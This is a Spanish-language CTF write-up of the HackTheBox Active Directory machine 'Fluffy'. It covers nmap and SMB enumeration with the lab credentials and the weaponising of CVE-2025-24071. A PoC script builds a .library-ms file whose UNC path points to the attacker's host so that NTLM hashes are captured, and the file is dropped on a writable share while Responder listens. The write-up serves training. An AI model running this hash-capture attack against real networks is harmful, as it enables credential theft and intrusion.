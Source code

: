 #ActiveDirectory #windows #Easy 
# MACHINE INFORMATION

As is common in real life Windows pentests, you will start the Fluffy box with credentials for the following account: j.fleischman / J0elTHEM4n1990!
### ping

```python
❯ ping -c 1 10.10.11.69
PING 10.10.11.69 (10.10.11.69) 56(84) bytes of data.
64 bytes from 10.10.11.69: icmp_seq=1 ttl=127 time=129 ms

--- 10.10.11.69 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 128.552/128.552/128.552/0.000 ms
```

### nmap

```python
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-28 22:24:39Z)
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49700/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC
49723/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-05-28T22:25:26
|_  start_date: N/A
|_clock-skew: 6h59m58s
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 28 10:26:37 2025 -- 1 IP address (1 host up) scanned in 193.77 seconds
```

### Enumeración SMB 

### Rid-Brute

```python
❯ crackmapexec smb fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' --rid-brute
```

![[Pasted image 20250528120635.png]]

Usando la --shares, enumeramos los derechos de acceso a los recursos compartidos SMB disponibles

```python
❯ nxc smb dc01.fluffy.htb -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares
```

![[Pasted image 20250528121206.png]]

Confirmamos el acceso de lectura y escritura a un recurso compartido personalizado llamado IT y descargamos todo con ==mget * .== 

![[Pasted image 20250528122155.png]]

el documento pdf hace referencia a algunos CVS conocidos que están parchados o que serán parchados próximamente
![[Pasted image 20250528122746.png]]

Este KeePass.exe.configarchivo es un archivo de configuración de aplicación .NET estándar, pero no expone las credenciales directamente.

![[Pasted image 20250528123035.png]]

  Sin embargo, esta línea en KeePass.exe.config: 

```python
xml
<loadFromRemoteSources enabled="true" />
```


…instruye al entorno de ejecución .NET para permitir la carga de ensamblados (DLL) desde ubicaciones remotas , incluidas: Rutas UNC ( \\attacker\share\malicious.dll) Unidades mapeadas Incluso ubicaciones basadas en la web (en versiones anteriores o casos mal configurados)

Normalmente, esto estaría bloqueado por la política de seguridad de .NET , a menos que esté permitido explícitamente como aquí. Esta configuración es una señal de alerta importante cuando un usuario extrae y ejecuta KeePass.exe desde un archivo ZIP, donde tenemos acceso de escritura . Esto sugiere claramente que el entorno está preparado para cargar algo desde una ubicación remota, un punto de partida clásico para el phishing de intranet mediante trucos de rutas SMB , señuelos de suplantación de identidad o cargas útiles de phishing enviadas mediante referencias a recursos compartidos de intranet . 

### CVE-2025-24071 Descripción general

Entre los CVE revelados en el PDF, el CVE-2025-24071 destaca por ser una coincidencia precisa con la configuración actual. Es un CVE reciente (si no recuerdo mal, hace unos meses leí el [[https://cti.monster/blog/2025/03/18/CVE-2025-24071.html]] CVE-2025-24071 es una vulnerabilidad de suplantación de identidad (spoofing) en el Explorador de archivos de Windows que permite a los atacantes capturar hashes NTLM con mínima interacción del usuario. La falla surge del procesamiento automático de .library-msarchivos del Explorador de archivos, que están basados ​​en XML y definen ubicaciones de bibliotecas.

### Suplantación de identidad (phishing) 
Primero, creamos el arma usando el repositorio PoC CVE-2025-24071 (o creamos uno manualmente, lo cual es bastante sencillo). Esto genera un .library-msarchivo diseñado para provocar la autenticación SMB en nuestro servidor controlado:

1. clonamos el repositorio
2. creamos un entorno virtual en python para poder operar de forma segura
3. activamos el entorno 
4. instalamos los requierements
5. ejecutamos el exploit


```python
❯ git clone https://github.com/ThemeHackers/CVE-2025-24071.git

❯ python3 -m venv venv

❯ source venv/bin/activate

❯ pip install -r requirements.txt

❯ python exploit.py -f Microsoft -i $10.10.14.133
```

![[Pasted image 20250528130756.png]]

esto creara un archivo xml parecido a este 

```python
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<searchConnectorDescriptionList>
<searchConnectorDescription>
<simpleLocation>
  <url>\\10.10.45.11\shared</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

El payload está dentro exploit.zip. ahora vamos a montar el recurso compartido y vamos a tener nuestro responder a la escucha

```python
sudo mount -t cifs \
  //dc01.fluffy.htb/IT /mnt/ \
  -o username='j.fleischman',password='J0elTHEM4n1990!',domain='fluffy.htb'


```

![[Pasted image 20250528133557.png]]